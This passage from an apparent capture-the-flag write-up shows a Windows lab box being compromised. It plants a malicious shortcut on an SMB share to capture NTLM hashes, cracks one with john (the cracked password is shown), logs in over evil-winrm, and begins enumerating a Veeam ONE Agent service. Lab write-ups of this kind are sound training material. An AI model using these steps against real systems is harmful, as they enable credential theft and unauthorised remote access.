3. Upload the malicious shortcut to the target's file share

```bash
smbclient //<TARGET_IP>/Files -U myrtleowe
put shortcut.zip
```

<img width="720" height="436" alt="SCREEN06" src="https://github.com/user-attachments/assets/2ac0283d-111b-4c7b-94ea-3e7a31c3f8a3" />

4. Wait for a user to open the malicious file, capture their NTLM hash, and crack it
   - Successfully captured and cracked: `MichelleWat:!!!MICKEYmouse`

```bash
john hash --wordlist=/root/Tools/wordlists/rockyou.txt
```

<img width="720" height="269" alt="SCREEN07" src="https://github.com/user-attachments/assets/448ba22f-175c-40ef-9b16-606136fcd084" />

5. Use the cracked credentials to gain remote access via WinRM and retrieve the second flag

```bash
evil-winrm -i <TARGET_IP> -u MichelleWat -p '!!!MICKEYmouse'
cd ../Desktop
dir
more Flag2.txt
```

<img width="721" height="279" alt="SCREEN08" src="https://github.com/user-attachments/assets/9284a445-a839-4df2-ab2f-29ff1c17ba42" />

---

### Flag 3

1. Examine running services and network connections to identify potential attack vectors. The output shows unusual ports 49713 and 2805 associated with process ID 5000, indicating a potentially vulnerable service

```bash
netstat -ao
```

<img width="720" height="437" alt="SCREEN09" src="https://github.com/user-attachments/assets/d41c2d50-a05f-4931-9b93-38e2fc2fe8dd" />

2. Identify which process is running on the discovered ports

```bash
Get-Process -Id 5000
```

<img width="722" height="110" alt="SCREEN10" src="https://github.com/user-attachments/assets/5fa183fc-3ebb-4397-8c74-78bde9d29360" />

3. Locate and examine the Veeam ONE Agent service files to understand the application

```bash
Get-ChildItem C:\ -recurse -ErrorAction SilentlyContinue | Where-Object {$_.Name -match "Veeam.One.Agent"}
Get-Item 'C:\Program Files\Veeam\Veeam ONE\Veeam ONE Agent\Veeam.One.Agent.Service.exe' | Format-List *
```
